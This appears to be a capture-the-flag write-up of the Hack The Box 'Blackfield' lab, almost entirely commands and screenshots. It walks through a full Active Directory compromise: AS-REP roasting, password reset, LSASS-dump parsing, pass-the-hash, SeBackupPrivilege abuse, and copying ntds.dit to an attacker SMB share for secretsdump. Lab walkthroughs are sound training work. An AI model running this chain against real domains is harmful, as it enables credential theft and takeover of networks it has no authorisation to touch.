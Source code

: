 ```
nmap -sS -sC -sV -T5 -Pn 10.10.10.192
nmap -sU -T5 10.10.10.192
smbclient -L \\\\10.10.10.192\\
smbclient \\\\10.10.10.192\\profiles$
RECURSE ON
PROMPT OFF
mget *
ls -la | awk -F' ' '{print $9}' > users2.txt
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local /home/itsec/Documents/HTB-Blackfield/users2.txt
crackmapexec smb 10.10.10.192 -u users1.txt -p /usr/share/wordlists/rockyou.txt
smbclient -L \\\\10.10.10.192\\ -U BLACKFIELD.local/audit2020@BLACKFIELD.local
./GetNPUsers.py blackfield.local/ -no-pass -usersfile users1.txt -dc-ip 10.10.10.192
john hash1 -w=/usr/share/wordlists/rockyou.txt
neo4j console
bloodhound
git clone https://github.com/dirkjanm/BloodHound.py.git
python3 bloodhound.py -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c All
Raw Query: MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p
rpcclient -U blackfield/support 10.10.10.192
setuserinfo audit2020 23 H@CKTHEB0X#
crackmapexec smb 10.10.10.192 -u audit2020 -p H@CKTHEB0X# --shares
smbclient \\\\10.10.10.192\\forensic -U BLACKFIELD.local/audit2020
mget *
pypykatz lsa minidump lsass.DMP
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes2
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users2
crackmapexec smb 10.10.10.192 -u users2 -H hashes2
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
whoami /priv
robocopy /b C:\Users\Administrator\Desktop\ C:\
git clone https://github.com/giuliano108/SeBackupPrivilege.git
cd C:\programdata
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
cd C:\windows\system32\config
type netlogon.dns
Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
type \programdata\netlogon.dns
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
https://pentestlab.blog/tag/diskshadow/
unix2dos vss.dsh
upload vss.dsh c:\programdata\vss.dsh
diskshadow /s c:\programdata\vss.dsh
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.13\s /u:df df
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.13\s\ntds.dit
Copy-FileSeBackupPrivilege z:\Windows\system32\config\SYSTEM \\10.10.14.6\s\SYSTEM
./secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.192
nmap -sU -T5 10.10.10.192
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fbd9d1ba-1de4-40ac-9315-7e4696e0411e)

![image](https://github.com/regarmulia/HTB/assets/33616880/61dfed10-6cd7-4e56-86b3-6de25c80beca)

```
smbclient -L \\\\10.10.10.192\\
smbclient \\\\10.10.10.192\\profiles$

RECURSE ON
PROMPT OFF
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6270846a-059e-44b7-8ea9-b85e2b4580fe)

```
ls -la | awk -F' ' '{print $9}' > users2.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8356828b-c804-409c-9614-eb7a07575f9c)

```
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d BLACKFIELD.local /home/itsec/Documents/HTB-Blackfield/users2.txt
audit2020@BLACKFIELD.local
svc_backup@BLACKFIELD.local
support@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8351ac91-ddd0-4beb-b7a5-07b826d5ea17)

```
crackmapexec smb 10.10.10.192 -u users1.txt -p /usr/share/wordlists/rockyou.txt
smbclient -L \\\\10.10.10.192\\ -U BLACKFIELD.local/audit2020@BLACKFIELD.local
```
![image](https://github.com/regarmulia/HTB/assets/33616880/85ac138e-3b1c-425d-a7e0-02a1459f064c)

![image](https://github.com/regarmulia/HTB/assets/33616880/8e443d07-17a2-4bb0-9581-bce86b966fce)

```
./GetNPUsers.py blackfield.local/ -no-pass -usersfile users1.txt -dc-ip 10.10.10.192
john hash1 -w=/usr/share/wordlists/rockyou.txt
#00^BlackKnight
```
![image](https://github.com/regarmulia/HTB/assets/33616880/cd8865bb-864f-46ec-a29a-696611744770)

```
neo4j console
bloodhound
git clone https://github.com/dirkjanm/BloodHound.py.git
python3 bloodhound.py -d BLACKFIELD.local -u support -p '#00^BlackKnight' -ns 10.10.10.192 -c All
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f5252e0-d56f-416b-aaf0-8199b768611d)

![image](https://github.com/regarmulia/HTB/assets/33616880/690ab874-b2ed-44ad-bcb1-7c905f601270)

![image](https://github.com/regarmulia/HTB/assets/33616880/32338d7d-8555-4e26-a012-c3c73abde14f)

```
Raw Query: MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ce0c48d4-04cd-4b3e-a357-3cc24d23fd19)

```
rpcclient -U blackfield/support 10.10.10.192
setuserinfo audit2020 23 H@CKTHEB0X#
```
![image](https://github.com/regarmulia/HTB/assets/33616880/3fcc9b61-e949-403c-b3d0-0f1ba9be236a)

```
crackmapexec smb 10.10.10.192 -u audit2020 -p H@CKTHEB0X# --shares
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c73a397a-31c3-4313-aa78-b82fe0c9cb65)

```
smbclient \\\\10.10.10.192\\forensic -U BLACKFIELD.local/audit2020
mget *
```
![image](https://github.com/regarmulia/HTB/assets/33616880/9cdfea40-0d79-4ece-a450-5ed8604b2335)

![image](https://github.com/regarmulia/HTB/assets/33616880/8c7006c9-71e4-4385-b060-5935ca36c2b1)

![image](https://github.com/regarmulia/HTB/assets/33616880/00b5ff21-a352-44d2-bb4d-edd7d42e6538)

```
pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ac6320b3-ffcf-45b9-978f-fff33a0cb42c)

```
pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' | sort -u > hashes2
pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' | sort -u > users2
```
![image](https://github.com/regarmulia/HTB/assets/33616880/67de1db3-ce5b-473e-bc56-0830ba2c0aa3)

![image](https://github.com/regarmulia/HTB/assets/33616880/5d9c4b09-a763-4a23-9699-47c2fdee4885)

```
crackmapexec smb 10.10.10.192 -u users2 -H hashes2
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
![image](https://github.com/regarmulia/HTB/assets/33616880/2f3fa841-a28a-4cec-a91c-646e37b6e8eb)

![image](https://github.com/regarmulia/HTB/assets/33616880/40295828-c67e-423a-9faa-709ea9d8f29e)

```
whoami /priv
```
![image](https://github.com/regarmulia/HTB/assets/33616880/99ce04fc-b535-454b-9415-909b01ac2c76)

```
robocopy /b C:\Users\Administrator\Desktop\ C:\
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d74df300-d472-4da8-b81b-ad4f1f632746)

![image](https://github.com/regarmulia/HTB/assets/33616880/d8f521b9-4937-403d-b9e2-d10cb0bfdf00)

```
git clone https://github.com/giuliano108/SeBackupPrivilege.git
cd C:\programdata
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilege/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8918071a-bc69-46c9-a0e8-ddce40280dff)

![image](https://github.com/regarmulia/HTB/assets/33616880/c311daad-df7a-4bcc-b229-70f7a2c76260)

```
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
cd C:\windows\system32\config
type netlogon.dns
Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
type \programdata\netlogon.dns
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c0b388c-25d4-4184-bb14-3c61515f856f)

![image](https://github.com/regarmulia/HTB/assets/33616880/2ee6d268-90fc-47d1-94bd-dc4f77972e9b)

```
Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fecb8fe9-4740-46b8-a14b-d3479761ef23)

```
https://pentestlab.blog/tag/diskshadow/
upload vss.dsh c:\programdata\vss.dsh
diskshadow /s c:\programdata\vss.dsh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d7f6af1-934b-4279-b5eb-e8c788d625b4)

![image](https://github.com/regarmulia/HTB/assets/33616880/95425630-c31e-492a-9b94-1ddcd202f19d)

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```
```
unix2dos vss.dsh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d2c6e1b2-b0fb-4966-b838-a601662324bb)

```
./smbserver.py s . -smb2support -username df -password df
net use \\10.10.14.13\s /u:df df
Copy-FileSeBackupPrivilege z:\Windows\ntds\ntds.dit \\10.10.14.13\s\ntds.dit
Copy-FileSeBackupPrivilege z:\Windows\system32\config\SYSTEM \\10.10.14.6\s\SYSTEM
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ace2cfb7-7a8e-45dd-a6f7-0d9962f32d5b)

![image](https://github.com/regarmulia/HTB/assets/33616880/b5095fad-0969-4aea-8fc9-5f61ff515ed2)

![image](https://github.com/regarmulia/HTB/assets/33616880/03292ed3-ef4c-40d9-824d-d0ad1fea814c)

```
./secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```
![image](https://github.com/regarmulia/HTB/assets/33616880/401b1100-989a-4eb6-861c-617b767fe70e)

```
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ba294f55-c00a-4a3a-8c26-2111bc1c8a5e)
